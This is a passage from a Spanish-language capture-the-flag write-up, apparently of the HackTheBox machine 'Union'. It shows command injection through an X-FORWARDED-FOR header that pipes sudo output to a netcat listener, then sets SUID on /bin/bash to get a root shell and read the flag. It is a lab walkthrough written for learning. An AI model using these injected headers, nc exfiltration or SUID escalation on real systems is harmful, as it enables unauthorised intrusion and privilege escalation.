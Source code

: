```
curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.2.2; sudo -l | nc 10.10.14.17 443;" -H "Cookie: PHPSESSID=kkpgqrbt1sh7rkip8pqr22l15l"
```
Y lo que recibo no me lo esperaba;
```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.128] 59008
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
``` 
Puedo correr todo sin contraseña como quien quiera. De perlas. Podría lanzarme una reverse shell como el usuario www-data y luego tirar el comando sudo bash. Pero más fácil va a ser esto:
```
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.2.2; sudo chmod u+s /bin/bash;" -H "Cookie: PHPSESSID=kkpgqrbt1sh7rkip8pqr22l15l"

uhc@union:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
Doy el permiso SUID a /bin/bash para ahora poder ejecutarlo como el propietario que es root;
```
uhc@union:/var/www/html$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
d23f83dd91bfd8638531a24183******
```
Y máquina hecha. Ha estado guay. Me he líado un poco con el curl y tengo que recordar realizar un buen fuzzing si me quedo bloqueado en alguna parte, o hacerlo bien desde el principio.

¡Saludos!, y a quién haya leído esto espero que os haya ayudado.

















 
